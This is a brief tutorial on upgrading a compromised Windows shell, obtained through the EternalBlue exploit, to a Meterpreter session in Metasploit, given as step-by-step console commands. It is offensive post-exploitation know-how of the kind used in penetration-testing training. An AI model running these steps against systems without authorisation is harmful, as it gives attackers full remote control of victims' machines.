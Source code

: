 * Getting a Shell to a Meterpreter Session in Metasploit

** This is a quick guide for anyone looking to upgrade their shell to meterpreter in the Metasploit framework

*** To accomplish this, you will first need to establish a session using an exploit on the target system.

*** So let's assume that you've successfully exploited the target and have the following on the command line

```
C:\Windows\system32 >
```

*** Great work! Now we need to upgrade this regular shell to meterpreter. 
*** First we need to background the session with, _CRTL+Z_ and when prompted type _y_ and press ENTER. This will background the session
*** With the session backgrounded, the command prompt should look similar to this:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) >
```

*** If you want to check the background session, simply type:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions
```

*** And active sessions will be shown with Id, Name, Type, Information, and Connection displayed.

*** Now on the Metasploit command prompt search:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter
```

*** A list will be generated from which you will choose which module best fits your situation. To select one of the choices, simply type:

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0 (or whichever number you decide)
```

*** Your prompt will change to something like:

```
msf6 post(multi/manage/shell_to_meterpreter) >
```

*** Now we need to run the show options command. 

```
msf6 post(multi/manage/shell_to_meterpreter) > show options
```

*** You'll notice _SESSION_ is required. From the previous "sessions" command we know which session we want to set here. Type:

```
msf6 post(multi/manage/shell_to_meterpreter) > set session 1
```

*** Always double check to make certain the parameter has been set by running the _show options_ command again. With the SESSION parameter set, type:

```
msf6 post(multi/manage/shell_to_meterpreter) > exploit (or run)
```

*** This will open a new session. To list the sessions type:

```
msf6 post(multi/manage/shell_to_meterpreter) > sessions -l 
```

*** You should have 2 sessions, the session with the normal shell and the session with the meterpreter shell. To access the meterpreter shell, type:

```
msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 2
```

*** You will now get the meterpreter shell and your command line prompt will change to the following:

```
meterpreter >
```

*** You should now be able to run commands where on the previous shell you couldn't.
